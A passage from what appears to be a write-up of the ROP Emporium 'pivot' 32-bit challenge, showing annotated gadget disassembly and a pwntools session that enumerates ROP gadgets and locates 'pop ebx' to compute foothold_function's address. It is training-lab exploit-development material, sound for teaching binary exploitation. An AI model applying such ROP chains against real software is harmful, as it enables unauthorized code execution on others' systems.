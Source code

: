 So, right after foothold_function is called, we pop the address of foothold_function's got entry into register eax...  
But we want to get the address of foothold_function in memory (0xf7ecf77d) into the eax register...  
Luckily we have a ROP gadget to do that:)

```asm
gef➤  disass usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0804882c <+0>:	pop    eax
   0x0804882d <+1>:	ret    
   0x0804882e <+2>:	xchg   esp,eax
   0x0804882f <+3>:	ret    
   0x08048830 <+4>:	mov    eax,DWORD PTR [eax]  <---------- :)
   0x08048832 <+6>:	ret    
   0x08048833 <+7>:	add    eax,ebx		    <---------- Then let's pop 503 into ebx, then add ebx to eax
   0x08048835 <+9>:	ret    
   0x08048836 <+10>:	xchg   ax,ax
   0x08048838 <+12>:	xchg   ax,ax
   0x0804883a <+14>:	xchg   ax,ax
   0x0804883c <+16>:	xchg   ax,ax
   0x0804883e <+18>:	xchg   ax,ax
````


Let's find a "pop ebx" instruction, using pwntools this time

```python3
ubuntu@ubuntu:~/ropemporium/pivot$ python3
Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> from pprint import pprint
>>> context.arch = 'i386'
>>> elf = ELF("./pivot32")
[*] '/home/ubuntu/ropemporium/pivot/pivot32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
    RUNPATH:  b'.'
>>> p = elf.process()
[x] Starting local process '/home/ubuntu/ropemporium/pivot/pivot32'
[+] Starting local process '/home/ubuntu/ropemporium/pivot/pivot32': pid 2952
>>> rop = ROP(elf)
[*] Loaded 11 cached gadgets for './pivot32'
>>> pprint(rop.gadgets)
{134513810: Gadget(0x8048492, ['ret'], [], 0x4),
 134513830: Gadget(0x80484a6, ['add esp, 8', 'pop ebx', 'ret'], ['ebx'], 0x10),
 134513833: Gadget(0x80484a9, ['pop ebx', 'ret'], ['ebx'], 0x8),
 134514162: Gadget(0x80485f2, ['add esp, 0x10', 'leave', 'ret'], ['ebp', 'esp'], 0x2540be413),
 134514165: Gadget(0x80485f5, ['leave', 'ret'], ['ebp', 'esp'], 0x2540be403),
 134514732: Gadget(0x804882c, ['pop eax', 'ret'], ['eax'], 0x8),
 134514837: Gadget(0x8048895, ['add esp, 0xc', 'pop ebx', 'pop esi', 'pop edi', 'pop ebp', 'ret'], ['ebx', 'esi', 'edi', 'ebp'], 0x20),
 134514840: Gadget(0x8048898, ['pop ebx', 'pop esi', 'pop edi', 'pop ebp', 'ret'], ['ebx', 'esi', 'edi', 'ebp'], 0x14),
 134514841: Gadget(0x8048899, ['pop esi', 'pop edi', 'pop ebp', 'ret'], ['esi', 'edi', 'ebp'], 0x10),
 134514842: Gadget(0x804889a, ['pop edi', 'pop ebp', 'ret'], ['edi', 'ebp'], 0xc),
 134514843: Gadget(0x804889b, ['pop ebp', 'ret'], ['ebp'], 0x8)}
>>> rop.ebx.address
134513833
>>> rop.ebx
```